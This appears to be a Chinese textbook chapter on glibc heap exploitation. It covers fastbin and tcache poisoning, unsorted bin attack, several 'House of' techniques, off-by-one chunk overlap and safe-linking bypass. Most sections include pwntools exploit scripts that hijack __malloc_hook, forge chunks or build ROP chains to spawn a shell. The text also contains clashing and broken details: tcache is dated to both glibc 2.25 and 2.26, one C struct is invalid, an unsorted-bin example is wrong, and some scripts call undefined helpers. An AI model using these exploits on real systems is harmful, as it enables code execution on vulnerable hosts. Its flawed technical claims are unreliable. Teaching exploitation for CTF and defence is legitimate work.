


## 16.3 堆利用技术

堆利用是二进制安全中最具深度的技术领域之一。与栈溢出不同，堆利用需要深入理解内存分配器的内部机制——主要是 glibc 的 ptmalloc2。本节从堆的基础结构出发，逐步讲解各类经典堆利用技术，覆盖从 glibc 2.23 到 2.35+ 的演进历程。

### 16.3.1 堆管理器基础

#### ptmalloc2 内存模型

glibc 使用 ptmalloc2 作为默认堆管理器。理解其数据结构是所有堆利用的前提。

**堆的初始化与增长**

程序首次调用 `malloc` 时，ptmalloc2 通过 `brk` 或 `mmap` 系统调用向内核申请内存。小块内存使用 `brk` 扩展堆段，大块内存（默认 128KB 以上）直接 `mmap` 映射独立区域。主分配区（main arena）管理 `brk` 区域的内存，线程分配区（thread arena）通过 `mmap` 创建独立的 heap segment。

```c
// 堆内存布局（高地址→低地址）
// +-------------------+ <-- brk (堆顶)
// |     Top Chunk     |  <-- 剩余可用空间
// +-------------------+
// |    Chunk N        |
// +-------------------+
// |    Chunk N-1      |
// +-------------------+
// |       ...         |
// +-------------------+
// |    Chunk 1        |
// +-------------------+ <-- heap base (堆基址)
```

#### Chunk 结构详解

每个已分配或空闲的内存块都以 chunk 为单位管理。一个 chunk 的最小大小为 32 字节（64 位系统）或 16 字节（32 位系统）。

```c
struct malloc_chunk {
    size_t prev_size;   // 前一个chunk的大小（仅当前一个chunk空闲时有效）
    size_t size;        // 当前chunk的大小（低3位用作标志位）
    struct fd;          // 指向下一个空闲chunk（仅空闲时有效）
    struct bk;          // 指向上一个空闲chunk（仅空闲时有效）
    // ... 后续空间为用户数据区
};
```

**size 字段的标志位：**

| 位 | 名称 | 含义 |
|----|------|------|
| bit 0 | PREV_INUSE (P) | 前一个 chunk 是否正在使用。1=在用，0=空闲 |
| bit 1 | IS_MMAPPED (M) | 该 chunk 是否由 mmap 分配 |
| bit 2 | NON_MAIN_ARENA (A) | 该 chunk 是否属于非主分配区 |

实际 chunk 大小 = `size & ~0x7`（清除低 3 位标志）。例如 `size = 0x31` 表示 chunk 实际大小为 48 字节（0x30），且 PREV_INUSE 为 1。

```c
// 已分配chunk的内存布局
+0x00: [  prev_size  ]  <-- 如果前一个chunk空闲，这里存储其大小
+0x08: [    size     ]  <-- 包含标志位 |P|M|A
+0x10: [     fd      ]  <-- 用户数据开始（已分配时fd/bk被用户使用）
+0x18: [     bk      ]
+0x20: [  user data  ]
  ...

// 空闲chunk的内存布局
+0x00: [  prev_size  ]
+0x08: [    size     ]
+0x10: [     fd      ]  <-- 双向链表：指向下一个空闲chunk
+0x18: [     bk      ]  <-- 双向链表：指向上一个空闲chunk
+0x20: [  unused     ]  <-- 空闲空间
  ...
```

#### Bin 体系

释放的 chunk 根据大小放入不同的 bin（容器）中管理。理解 bin 的组织方式是堆利用的核心。

| Bin 类型 | 范围 | 数据结构 | 特点 |
|----------|------|----------|------|
| Fast Bin | 32~128 字节（64位） | 单链表，LIFO | 不合并，速度最快 |
| Tcache Bin | 24~1040 字节（64位，glibc 2.26+） | 单链表，LIFO | 每类最多 7 个，不合并 |
| Small Bin | 128~1024 字节（64位） | 双向链表，FIFO | 精确匹配 |
| Large Bin | >1024 字节（64位） | 双向链表+排序 | 按大小排序，可分割 |
| Unsorted Bin | 释放后暂存 | 双向链表 | malloc 时整理分类 |

**Fast Bin 的 LIFO 特性：**

```text
释放 chunk A，再释放 chunk B：
fastbin[0] -> B -> A -> NULL

再次 malloc 时：先返回 B（栈顶），再返回 A
```

**Tcache 的结构（glibc 2.26+）：**

```c
typedef struct tcache_entry {
    struct tcache_entry *next;  // 单链表，仅fd指针
} tcache_entry;

typedef struct tcache_perthread_struct {
    char counts[TCACHE_MAX_BINS];  // 每类的计数（最多7个）
    tcache_entry *entries[TCACHE_MAX_BINS];  // 每类的链表头
} tcache_perthread_struct;
```

Tcache 优先级高于所有 bin——`malloc` 时先查 tcache，`free` 时优先进 tcache。tcache 满时（每类 7 个）才放入 fastbin/unsorted bin。

#### malloc 与 free 的执行流程



### 16.3.2 Fast Bin Attack

Fast Bin Attack 是最基础的堆利用技术之一，利用 fastbin 的 LIFO（后进先出）特性和缺乏完整性检查的弱点。

#### 原理

fastbin 使用单链表管理，`malloc` 从链表头取出，`free` 放到链表头。glibc 2.23 及更早版本对 fastbin 的唯一检查是：取出时验证链表头 chunk 的 size 字段是否与当前 fastbin index 对应的 size 匹配。

攻击者通过 UAF（Use-After-Free）或 Double Free 漏洞修改已释放 chunk 的 `fd` 指针为伪造地址，使后续 `malloc` 返回攻击者控制的内存区域。

#### 前提条件

- 存在 UAF 或 Double Free 漏洞
- 目标地址处的 size 字段能通过 fastbin 的 size 检查（伪造 size）
- 目标系统使用 glibc 2.23 或更早（glibc 2.25 开始增加 tcache，glibc 2.29+ 增加了 fastbin 的更严格检查）

#### 攻击步骤

```text
初始状态：
fastbin[2] (size=0x30) -> NULL

1. 分配两个 chunk：
   p1 = malloc(0x20)   // chunk A
   p2 = malloc(0x20)   // chunk B

2. 释放两个 chunk（先进后出）：
   free(p1)
   free(p2)
   fastbin[2] -> B -> A -> NULL

3. 通过 UAF 修改 B 的 fd 指针：
   *(p2) = target_addr   // B->fd = target_addr
   fastbin[2] -> B -> target_addr -> ???

4. 三次 malloc：
   malloc(0x20)  // 返回 B（从 fastbin 头部取出）
   malloc(0x20)  // 返回 A
   malloc(0x20)  // 返回 target_addr！
```

#### 完整利用代码

```python
from pwn import *

p = process('./vuln')
elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 假设存在堆管理功能：add(idx, size), delete(idx), edit(idx, data), show(idx)

# 1. 分配两个 chunk
add(0, 0x28)  # chunk 0
add(1, 0x28)  # chunk 1

# 2. 触发 UAF：释放后仍可 edit
delete(0)
delete(1)

# 3. 构造 payload：伪造目标位置的 size 字段
# 假设目标是 __malloc_hook 附近，需要在该位置伪造一个合法的 size
target = libc.sym['__malloc_hook'] - 0x23  # 偏移到有 0x7f 的位置（模拟 size=0x70）
payload = p64(target)
edit(1, payload)  # 修改 chunk 1 的 fd

# 4. malloc 两次消耗掉链表中的 B 和 A
add(2, 0x28)  # 取出 chunk 1
add(3, 0x28)  # 取出 chunk 0

# 5. 第三次 malloc 返回伪造的 target 地址
add(4, 0x28)  # 返回 target_addr 附近
# 现在 chunk 4 指向 __malloc_hook - 0x23

# 6. 写入 one_gadget 地址
edit(4, b'\x00' * 0x13 + p64(one_gadget_addr))

# 7. 触发 malloc 调用 one_gadget
add(5, 0x28)  # 触发 __malloc_hook

p.interactive()
```

#### glibc 2.25+ 的变化：Tcache 的影响

glibc 2.25 引入 tcache 后，`free` 时优先放入 tcache 而非 fastbin。攻击时需要先填满 tcache（每个 size class 最多 7 个），才能让 chunk 进入 fastbin：

```python
# 填满 tcache
for i in range(7):
    add(i, 0x28)
for i in range(7):
    delete(i)

# 此后再 free，chunk 才会进入 fastbin
add(7, 0x28)
add(8, 0x28)
delete(7)
delete(8)
# 现在 fastbin[2] -> chunk8 -> chunk7
```

### 16.3.3 Unsorted Bin Attack

Unsorted Bin Attack 利用 malloc 整理 unsorted bin 时对双向链表的写操作，向任意地址写入一个大数值。

#### 原理

当 `malloc` 在 fastbin、smallbin、tcache 中都找不到合适的 chunk 时，会遍历 unsorted bin。如果 unsorted bin 中只有一个 chunk，且该 chunk 不能满足请求，malloc 会执行以下操作：

```c
// glibc 源码简化
bck = unsorted_bin->bk;          // unsorted_bin 的 bk 指向最后一个 chunk
unsorted_chunks(av)->bk = bck;   // 从链表中摘除
bck->fd = unsorted_chunks(av);   // 向 bck+0x10 写入 unsorted_bin 地址
```

关键在于 `bck->fd = unsorted_chunks(av)` 这一行：如果攻击者修改了 unsorted bin 中 chunk 的 `bk` 指针，那么 `(bk+0x10)` 处会被写入 main_arena 中 unsorted bin 的地址（一个很大的值，通常为 `0x7f...` 开头的地址）。

#### 前提条件

- 存在 UAF 漏洞，能修改 unsorted bin 中 chunk 的 `bk` 字段
- unsorted bin 中只有一个 chunk（或能控制链表结构）

#### 攻击效果

向 `target_addr - 0x10` 处写入 main_arena 地址。这本身不能直接控制写入值，但可以用于：

1. **覆盖 `_IO_list_all` 指针**：结合 FSOP（File Stream Oriented Programming）攻击
2. **增大某个计数器或标志位**：利用写入的大值绕过大小检查
3. **辅助其他攻击**：例如增大 top chunk 的 size 以配合 House of Force

#### 攻击步骤

```text
1. 分配一个 chunk，释放到 unsorted bin：
   p = malloc(0x20)
   free(p)
   unsorted_bin -> chunk -> unsorted_bin

2. 通过 UAF 修改 chunk 的 bk 指针：
   *(p + 0x18) = target_addr - 0x10  // bk = target - 0x10

3. 再次 malloc 触发 unsorted bin 整理：
   malloc(0x20)
   // 此时 target_addr 处被写入 main_arena 地址
```

```python
from pwn import *

# 假设有 UAF 漏洞
add(0, 0x20)
delete(0)  # chunk 进入 unsorted bin

# 修改 chunk 0 的 bk 指针
# target 是我们要写入的位置（例如某个 GOT 表项）
target = elf.got['puts']
payload = p64(0) + p64(0) + p64(0) + p64(target - 0x10)
edit(0, payload)

# 触发 malloc 整理 unsorted bin
add(1, 0x20)
# 此时 puts@GOT 被覆盖为 main_arena 地址
```

#### 与 House of Orange 的配合

Unsorted Bin Attack 最经典的用途是配合 House of Orange：通过写入 `_IO_list_all` 来劫持文件流结构体，最终触发 `system("/bin/sh")`。

### 16.3.4 Tcache Poisoning

Tcache Poisoning 是 glibc 2.26~2.28 最流行的堆利用技术。由于 tcache 使用单链表且早期版本缺乏完整性检查，攻击门槛极低。

#### 原理

tcache 的 `next` 指针（相当于 fd）在释放时被设置为链表中下一个 chunk 的地址。如果通过 UAF 修改这个 `next` 指针，后续 `malloc` 就会返回攻击者指定的地址。

**关键对比：**

| 检查项 | Fast Bin (glibc 2.23) | Tcache (glibc 2.26-2.28) | Tcache (glibc 2.29+) |
|--------|----------------------|--------------------------|----------------------|
| size 检查 | 取出时检查 | **无** | 取出时检查 key |
| 双链表完整性 | 部分检查 | **无** | 部分检查 |
| fd 指针对齐 | 无 | **无** | 检查地址对齐 |
| double free 检测 | 无 | **无** | 检查 key 字段 |

glibc 2.29 引入了 tcache 的 key 字段检查：

```c
typedef struct tcache_entry {
    struct tcache_entry *next;
    struct tcache_perthread_struct *key;  // glibc 2.29+ 新增
} tcache_entry;
```

释放时 `key` 被设置为 tcache_perthread_struct 的地址。如果发现 `key` 已经等于该值，说明是 double free。

#### 基础攻击（glibc 2.26-2.28）

```python
from pwn import *

# glibc 2.26-2.28，零检查
add(0, 0x20)
add(1, 0x20)

delete(0)
delete(1)

# 通过 UAF 修改 chunk 1 的 next 指针
target = 0xdeadbeef  # 目标地址
edit(1, p64(target))

# 两次 malloc
add(2, 0x20)  # 返回 chunk 1
add(3, 0x20)  # 返回 0xdeadbeef！

# 现在可以向 0xdeadbeef 写入数据
edit(3, b'AAAA')  # 写入目标地址
```

#### 绕过 glibc 2.29+ 检查

glibc 2.29 增加了 key 检查，直接 double free 会触发 `tcache_put` 中的 `if (e->key == tcache)` 检测。绕过方法：

**方法一：利用其他漏洞清除 key 字段**

```python
# 如果有 UAF 可以 edit 已释放的 chunk
delete(0)
# 清除 key 字段（偏移 0x08 处）
edit(0, p64(0) + p64(0))
# 现在可以再次 free
delete(0)  # 不会触发 key 检查
```

**方法二：通过 fastbin 中转**

```python
# 1. 填满 tcache（7个）
for i in range(7):
    add(i, 0x28)
for i in range(7):
    delete(i)

# 2. 额外分配两个 chunk，释放进 fastbin
add(7, 0x28)
add(8, 0x28)
delete(7)
delete(8)  # 进入 fastbin（tcache 已满）

# 3. 从 fastbin 取出一个
add(9, 0x28)  # 从 tcache 取出

# 4. 从 tcache 取出一个（tcache 中还剩 6 个）
add(10, 0x28)

# 5. 现在 tcache 有 5 个空位，free 一个 chunk 进 tcache
delete(8)  # 进 tcache

# 6. 此时 fastbin 中还有 chunk 7，将其 free 也会进 tcache
# 可以利用这种交叉操作绕过检查
```

#### Tcache Stashing Unlink Attack

当 tcache 为空但 smallbin 有多个 chunk 时，malloc 会将 smallbin 中的 chunk "暂存"（stash）到 tcache 中。这个过程使用 `bk` 指针遍历，可以实现更复杂的攻击。

```c
// glibc 源码简化：tcache_put 过程中
while (tcache->counts[tc_idx] < mp_.tcache_count && (tc_victim = last(bck)) != bck) {
    bck = tc_victim->bk;  // 使用 bk 指针遍历
    tcache_put(tc_victim, tc_idx);
}
```

如果能控制 smallbin 中 chunk 的 `bk` 指针，可以让暂存过程将任意地址当作 chunk 放入 tcache，后续 malloc 即可返回该地址。

### 16.3.5 House of Force

House of Force 是一种利用 top chunk size 字段被溢出覆盖的攻击技术，通过计算偏移量将 top chunk "移动"到任意位置。

#### 原理

malloc 在所有 bin 都没有合适 chunk 时，会从 top chunk（堆顶的连续空闲区域）分割内存。如果 top chunk 的 size 字段被覆盖为一个极大值（如 `0xffffffffffffffff`），那么无论请求多大的内存都不会触发 "top chunk 大小不足" 的检查。

攻击者通过精心计算请求的大小，使 top chunk 的指针移动到目标地址附近，下一次 malloc 就返回目标地址。

#### 关键公式

```text
需要申请的大小 = target_addr - old_top_addr - 0x10 - 0x20
```

其中：
- `target_addr`：目标写入地址
- `old_top_addr`：当前 top chunk 的用户数据区地址
- `0x10`：prev_size + size 的开销
- `0x20`：新 top chunk 的头大小（可能需要调整）

实际上更精确的公式需要考虑 chunk 对齐（16 字节对齐）：

```python
# 计算需要 malloc 的大小，使 top chunk 移动到 target 附近
distance = (target_addr - old_top_addr) - 0x10
# 因为 malloc 的参数会被对齐到 chunk 边界，通常需要减去头部开销
# 实际调试时需要根据具体情况微调
```

#### 前提条件

- 存在堆溢出（Heap Overflow），能覆盖 top chunk 的 size 字段
- 能控制 malloc 的请求大小（可以传入负数或极大值）
- 系统使用 glibc 2.23 或更早（glibc 2.29+ 对 top chunk size 增加了检查）

#### 攻击步骤

```text
初始状态：
top chunk 地址：0x602010
top chunk size：0x20ff1（合法值）

1. 溢出覆盖 top chunk 的 size 为 0xffffffffffffffff
   offset = 计算从用户数据到 top chunk size 字段的距离
   payload = b'A' * offset + p64(0) + p64(0xffffffffffffffff)

2. 计算偏移量，将 top chunk 移动到 __malloc_hook 附近
   target = libc.sym['__malloc_hook'] - 0x23
   old_top = 0x602010
   distance = target - old_top - 0x10
   malloc(distance)

3. 此时 top chunk 已在 __malloc_hook 附近
   malloc(0x10)  # 返回 __malloc_hook - 0x23 的位置

4. 写入 one_gadget 地址
   payload = b'\x00' * 0x13 + p64(one_gadget)
   # 覆盖 __malloc_hook

5. 触发 malloc
   malloc(0x10)  # 调用 __malloc_hook -> one_gadget
```

#### 完整利用代码

```python
from pwn import *

p = process('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 泄漏堆地址
p.recvuntil(b'heap: ')
heap_base = int(p.recvline().strip(), 16)
log.info(f'heap base: {hex(heap_base)}')

# 泄漏 libc 地址（需要另一个漏洞）
p.recvuntil(b'libc: ')
libc_base = int(p.recvline().strip(), 16)
libc.address = libc_base
log.info(f'libc base: {hex(libc_base)}')

# 步骤1：溢出覆盖 top chunk size
# 假设存在 off-by-one 或 heap overflow
payload = b'A' * 0x18           # 填充到 top chunk 的 size 字段
payload += p64(0)               # prev_size
payload += p64(0xffffffffffffffff)  # size = 最大值
add(0, 0x18, payload)

# 步骤2：计算偏移，移动 top chunk
top_addr = heap_base + 0x20     # 当前 top chunk 地址（实际值需调试确认）
target = libc.sym['__malloc_hook'] - 0x23
distance = target - top_addr - 0x10

# malloc 需要是正数且通过 size_t 转换
malloc(distance & 0xffffffffffffffff)

# 步骤3：在 __malloc_hook 位置分配 chunk
p2 = malloc(0x60)

# 步骤4：写入 one_gadget
one_gadget = libc_base + 0x4527a  # 具体偏移需根据 libc 版本确定
edit(p2, b'\x00' * 0x13 + p64(one_gadget))

# 步骤5：触发
malloc(0x10)

p.interactive()
```

### 16.3.6 House of Spirit

House of Spirit 是一种"反向堆利用"——不在堆上构造攻击，而是在栈上伪造堆 chunk，通过 free 后再 malloc 获得栈地址的控制权。

#### 原理

free 一个指针时，ptmalloc2 会检查该指针指向的 chunk 的 size 字段是否合法（是否在 fastbin 范围内、PREV_INUSE 标志是否正确等）。如果攻击者能在栈上构造一个"看起来合法"的 chunk，就可以通过 free 将其放入 fastbin，后续 malloc 返回栈地址。

**为什么需要伪造 chunk？**

free 时 glibc 会执行以下检查：
1. 地址对齐检查（16 字节对齐）
2. size 字段不小于最小 chunk 大小
3. size 字段不超过 `av->system_mem`
4. 如果放入 fastbin，检查 next chunk 的 size 是否合法

#### 伪造 chunk 的结构

```c
// 在栈上构造的伪造 chunk（64 位系统，fastbin 大小）
+0x00: [  prev_size = 0x0         ]  // 不重要
+0x08: [  size = 0x41             ]  // 必须合法：0x40 + PREV_INUSE
+0x10: [  fd = junk               ]  // 不重要
+0x18: [  bk = junk               ]  // 不重要
+0x20: [  ...                     ]
+0x38: [  next_chunk_size = 0x42  ]  // 下一个 chunk 的 size 必须合法
+0x40: [  ...                     ]
```

**关键点：** 第 40（0x28）字节处的 "下一个 chunk 的 size" 也需要合法。在 fastbin 场景下，glibc 会检查 `chunk_at_offset(p, size)->size` 是否在合理范围内。

#### 攻击步骤

```text
1. 在栈上布置伪造的 chunk：
   栈布局：
   [padding][0x41][junk][junk][...][0x42]

2. 将伪造 chunk 的地址传给 free：
   free(&fake_chunk)

3. 此时 fake_chunk 进入 fastbin[2]（对应 size 0x40）

4. malloc(0x38)：从 fastbin[2] 取出，返回栈地址

5. 现在可以向栈上写入数据，覆盖返回地址等
```

```python
from pwn import *

# 假设有一个函数可以触发 free，且我们可以控制栈内容

# 步骤1：在栈上布置
# 返回地址在 RBP+8，我们需要在 RBP 前面构造 fake chunk
# 假设 rbp = 0x7ffc12345670

# fake chunk 在栈上的位置（调试确定）
fake_chunk_addr = 0x7ffc12345650

# 构造 payload
payload = p64(0)        # prev_size
payload += p64(0x41)    # size = 0x40 | PREV_INUSE
payload += p64(0) * 6   # 填充到 0x40 字节
payload += p64(0x42)    # next chunk 的 size（需要合法）

# 步骤2：free fake chunk
# （通过漏洞函数触发）

# 步骤3：malloc 获取栈地址
# malloc(0x38) 返回 fake_chunk_addr + 0x10

# 步骤4：写入 ROP chain 覆盖返回地址
rop_payload = b'A' * (rbp - fake_chunk_addr - 0x10)  # 填充到返回地址
rop_payload += p64(pop_rdi_ret)  # ROP gadget
rop_payload += p64(bin_sh_addr)
rop_payload += p64(system_addr)
```

### 16.3.7 Off-By-One 与堆重叠

Off-by-one 漏洞（特别是 null byte off-by-one）是堆利用中非常常见且威力巨大的漏洞类型，可以导致 chunk 重叠（Heap Overlap / Heap Shrink），实现信息泄露和任意写入。

#### Null Byte Off-By-One 的原理

当程序存在 null byte off-by-one（只能写入一个 `\x00`）时，如果溢出到下一个 chunk 的 size 字段的最低字节，可以改变该 chunk 的 size 值。

例如：
```text
原始 size: 0x0000000000000111  (272 字节)
溢出后:   0x0000000000000100  (256 字节，最低字节被置零)
```

如果最低位（PREV_INUSE 标志）从 1 变为 0，free 这个 chunk 时会认为前一个 chunk 是空闲的，从而尝试向前合并（backward consolidation），使用前一个 chunk 的 `prev_size` 来定位"前一个 chunk"的起始位置。

#### 利用过程



**详细步骤：**

```text
堆布局（glibc 2.23，64位）：

[    chunk A: 0x100 bytes data    ][head 0x10]
[    chunk B: 0x100 bytes data    ][head 0x10]
[    chunk C: 0x100 bytes data    ][head 0x10]

步骤1：释放 chunk A
A 进入 unsorted bin，B 的 prev_size 变为 0x110（A 的总大小），
B 的 PREV_INUSE 标志变为 0。

堆布局：
[A: in unsorted bin, size=0x111, prev_size=0][B: size=0x111, prev_size=0x110, P=0][C: ...]

步骤2：通过溢出修改 B 的 size 字节
假设 A 和 B 之间有 off-by-one 漏洞，可以写一个 null byte 到 B 的 size 最低字节。
B.size 从 0x111 变为 0x110（或 0x100，取决于溢出位置）。
关键：PREV_INUSE 位被清零。

步骤3：释放 chunk B
glibc 看到 B 的 PREV_INUSE=0，认为前一个 chunk（由 B.prev_size 指向）是空闲的。
执行 backward consolidation：将 B 与"前一个 chunk"合并。

步骤4：控制 prev_size
如果我们在 chunk A 的数据中精心设置了 prev_size 值（通过 free 前的写入），
可以使合并后的 chunk 起始位置在 C 之前，大小覆盖整个 C。

结果：合并后的 chunk 与 C 重叠。
分配这个合并 chunk 后，可以读写 C 中的数据。
```

#### Off-By-One 利用代码

```python
from pwn import *

p = process('./vuln')

# 分配三个 chunk
add(0, 0xf8)  # chunk A，实际 size = 0x100
add(1, 0xf8)  # chunk B
add(2, 0xf8)  # chunk C

# 释放 chunk A，使其进入 unsorted bin
# 此时 B 的 prev_size = 0x100, B 的 PREV_INUSE = 0
delete(0)

# 利用 off-by-one 漏洞
# 假设程序允许写入 A 的数据到 B 的开头
# 我们需要：在 B 的数据区开始处写入 prev_size，然后用 null byte 覆盖 B 的 size 最低字节

# payload 布局：
# [A 的数据区 ... ][prev_size 覆盖][B 的 size 最低字节置零]
payload = b'A' * 0xf8          # 填满 A 的数据区
payload += p64(0)               # A 的 prev_size（不重要）
payload += p64(0x100)           # B 的新 size（最低字节被后续 null 覆盖为 0x00）

# 实际上更常见的情况是：
# B 的 size 从 0x111 变为 0x100（或 0x110）
# 只要 PREV_INUSE 被清零即可

# 释放 B，触发 backward consolidation
delete(1)

# 现在 unsorted bin 中有一个大 chunk，覆盖了原来的 B 和 C 的区域

# 分配一个大 chunk 来覆盖 C
add(3, 0x1f8)  # 覆盖 B 和 C 的区域

# 现在 chunk 3 和 chunk 2（C）指向重叠的内存
# 可以通过 chunk 3 修改 chunk 2 的数据

# 利用场景1：泄露 chunk 2 中存储的指针（如 libc 地址）
show(2)  # 读取 C 中的内容（可能包含 unsorted bin 地址 = libc 地址）
leak = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = leak - 0x3c4b78  # unsorted bin 在 libc 中的偏移

# 利用场景2：修改 chunk 2 中的函数指针
edit(3, b'A' * 0xf8 + p64(0) + p64(0x111) + p64(target_addr))
# 修改了 C 的 fd 指针

p.interactive()
```

#### House of Einherjar

House of Einherjar 是 Off-by-One 利用的一种变体，核心思想与上述过程相同，但名字来源于北欧神话中"进入英灵殿"的战士——暗示将多个 chunk "合并"到攻击者控制的区域。

其关键在于精确控制 `prev_size` 字段，使 backward consolidation 后的 chunk 起始位置落在攻击者想要的位置（通常是某个已分配 chunk 的中间）。

### 16.3.8 House of Lore

House of Lore 利用 smallbin 的双向链表完整性不足（glibc 2.23），通过伪造 smallbin 链表将 chunk 分配到任意地址。

#### 原理

smallbin 使用 `fd` 和 `bk` 构成双向链表。glibc 2.23 在从 smallbin 取出 chunk 时只检查 `victim->bk->fd == victim`。如果攻击者能同时控制 `bk` 和 `fd` 指针，就可以伪造整个链表。

```text
正常 smallbin 链表：
smallbin[4] <-> chunk A <-> chunk B <-> smallbin[4]

攻击者伪造：
smallbin[4] <-> chunk A <-> fake_chunk (在目标地址) <-> smallbin[4]
```

#### 步骤

```python
# 1. 将 chunk 放入 smallbin（大小 > 128 字节）
add(0, 0x200)
add(1, 0x20)  # 防止与 top chunk 合并
delete(0)

# 等待一个 malloc 触发 malloc_consolidate（或直接调用）
# 使 chunk 从 unsorted bin 移到 smallbin

# 2. 通过 UAF 修改 chunk 的 bk 指针
target = 0x602060  # 目标地址
edit(0, p64(0) + p64(target - 0x10))  # fd=0, bk=target-0x10

# 3. 在目标地址处准备 fake chunk
# fake_chunk->fd 必须指向我们的 chunk（满足 victim->bk->fd == victim）
# 也就是说 *(target - 0x10 + 0x10) = chunk_A_addr
# 即 *(target) = chunk_A_addr

# 4. 从 smallbin 取出
p1 = malloc(0x200)  # 取出 chunk A
p2 = malloc(0x200)  # 取出 fake_chunk，返回 target + 0x10
```

### 16.3.9 House of Orange（FSOP）

House of Orange 是一种不需要 `free` 函数的攻击技术，通过覆盖 `_IO_list_all` 指针劫持文件流结构体，最终触发 `system("/bin/sh")`。

#### 核心思想

1. 通过 Unsorted Bin Attack 覆盖 `_IO_list_all`
2. 在堆上伪造 `_IO_FILE_plus` 结构体
3. 利用 malloc 失败时调用 `_IO_flush_all_lockp` 的路径触发 `vtable` 劫持

#### 关键结构体

```c
// 简化的 _IO_FILE_plus 结构
struct _IO_FILE_plus {
    _IO_FILE _file;           // 文件结构体本身
    const struct _IO_jump_t *vtable;  // 虚函数表指针
};

// _IO_FILE 中的关键字段
struct _IO_FILE {
    int _flags;               // 偏移 0x00
    char *_IO_read_ptr;       // 偏移 0x08
    char *_IO_read_end;       // 偏移 0x10
    char *_IO_write_ptr;      // 偏移 0x18
    // ...
    struct _IO_FILE *_chain;  // 偏移 0x68，链表指针
    // ...
};
```

`_IO_flush_all_lockp` 遍历 `_IO_list_all` 链表，对每个 `_IO_FILE` 调用其 `vtable->__overflow`。如果攻击者控制了 `vtable`，就可以劫持执行流。

#### glibc 版本差异

| 版本 | FSOP 难度 | 原因 |
|------|----------|------|
| 2.23 | 较容易 | vtable 指针可指向任意地址 |
| 2.24 | 中等 | 引入 vtable 范围检查，需伪造 vtable 在 `__libc_IO_vtables` 段内 |
| 2.25-2.27 | 中等 | 同上，可通过伪造 `_IO_str_overflow` 等函数绕过 |
| 2.28+ | 较难 | 增加更多检查，需要更精细的伪造 |
| 2.35+ | 困难 | safe linking + 多重检查 |

### 16.3.10 Safe Linking（glibc 2.32+）

glibc 2.32 引入了 safe linking 机制，对 tcache 和 fastbin 的单链表 `fd` 指针进行加密。

#### 原理

```c
// 加密公式
#define PROTECT_PTR(pos, ptr) \
    ((__typeof(ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))

// 解密公式（取出时自动使用）
#define REVEAL_PTR(ptr)  PROTECT_PTR(&ptr, ptr)
```

`fd` 指针在存储时与 chunk 自身地址右移 12 位的值进行 XOR 运算。由于 ASLR 的低 12 位是固定的（页对齐），这使得攻击者在不知道堆地址的情况下无法构造合法的 `fd` 指针。

#### 绕过方法

1. **堆地址泄露**：如果能泄露任意堆地址，就可以计算 XOR key 并构造合法的加密指针
2. **非对齐写入**：如果漏洞允许写入非对齐的字节，可以逐字节爆破（2^12 = 4096 种可能）
3. **相邻 chunk 已知**：如果目标 chunk 的地址可以推算，XOR key 就是已知的

```python
# 绕过 safe linking 的示例（已知堆地址）
def protect_ptr(pos, ptr):
    return (pos >> 12) ^ ptr

def reveal_ptr(pos, enc_ptr):
    return (pos >> 12) ^ enc_ptr

# 假设已知 chunk A 地址为 0x5555555592a0
chunk_a_addr = 0x5555555592a0
target_addr = 0x555555559010  # 目标地址

# 计算加密后的 fd
encrypted_fd = protect_ptr(chunk_a_addr, target_addr)

# 写入到 chunk A 的 fd 字段
edit(0, p64(encrypted_fd))
```

### 16.3.11 glibc 各版本安全机制对比

| 版本 | 新增安全机制 | 对堆利用的影响 |
|------|------------|---------------|
| 2.23 | 基础检查 | Fast Bin Attack、House of Force 等经典技术可用 |
| 2.25 | Tcache 引入 | 降低了门槛（tcache 几乎无检查），但改变了利用路径 |
| 2.26 | Tcache 完善 | Tcache Poisoning 成为主流 |
